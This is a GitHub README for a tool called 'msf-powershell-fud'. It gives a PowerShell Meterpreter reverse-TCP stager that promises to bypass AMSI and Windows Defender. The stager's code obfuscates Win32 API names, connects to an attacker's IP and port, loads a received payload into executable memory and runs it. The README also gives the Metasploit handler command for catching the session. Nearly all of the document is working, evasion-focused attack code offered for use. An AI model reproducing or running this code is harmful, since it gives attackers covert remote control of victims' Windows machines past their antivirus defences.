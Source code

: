 # msf-powershell-fud

Simple Meterpreter session in powershell bypassing amsi & windows defender

[+] This code of meterpreter only work with Powershell 32 bits Path Powershell 32 bits = %WinDir%\syswow64\windowspowershell\v1.0\powershell.exe, Replace "YourIP" and YourPORT according to you


## Usage/Examples

Open Run Box with WIN+R then type
```
%WinDir%\syswow64\windowspowershell\v1.0\powershell.exe
```

then paste the followoing code replacing with your **IP** & your sweet **PORT**
```
$ip = "YourIP"; $port = YourPORT; $c = @"
[D#ll#Imp#ort("ker#ne#l32.#dll")] publi#c static e#xtern In#tPtr Virt#ualAl#loc(Int#Ptr w, ui#nt x, ui#nt y, ui#nt z);
[Dl#lI##mpor#t("kern#el32.d#ll")] pub#lic st#atic ex#tern Int#Ptr Cr#eate#Thr#ead(Int#Ptr u, u#int v, IntP#tr w, Int#Ptr x, ui#nt y, IntPtr z);
"@.replace("#", "")
try{$s = New-Object System.Net.Sockets.Socket ([System.Net.Sockets.AddressFamily]::InterNetwork, [System.Net.Sockets.SocketType]::Stream, [System.Net.Sockets.ProtocolType]::Tcp)
$s.Connect($ip, $port) | out-null; $p = [Array]::CreateInstance("byte", 4); $x = $s.Receive($p) | out-null; $z = 0
$y = [Array]::CreateInstance("byte", [BitConverter]::ToInt32($p,0)+5); $y[0] = 0xBF
while ($z -lt [BitConverter]::ToInt32($p,0)) { $z += $s.Receive($y,$z+5,1,[System.Net.Sockets.SocketFlags]::None) }
for ($i=1; $i -le 4; $i++) {$y[$i] = [System.BitConverter]::GetBytes([int]$s.Handle)[$i-1]}
$t = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru; $x=$t::VirtualAlloc(0,$y.Length,0x3000,0x40)
[System.Runtime.InteropServices.Marshal]::Copy($y, 0, [IntPtr]($x.ToInt32()), $y.Length)
$t::CreateThread(0,0,$x,0,0,0) | out-null; Start-Sleep -Second 86400;  Start-Sleep -Second 86400; Start-Sleep -Second 86400; Start-Sleep -Second 86400}catch{}
```

**In the attacker box**

open a terminal and type the following to open a listener

```
msfconsole -x "set lhost YourIP; set lport YourPORT; use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set EnableStageEncoding true; set StageEncoder x86/xor_dynamic; run"
```

## Authors

- [@badboy-sft](https://github.com/badboy-sft)
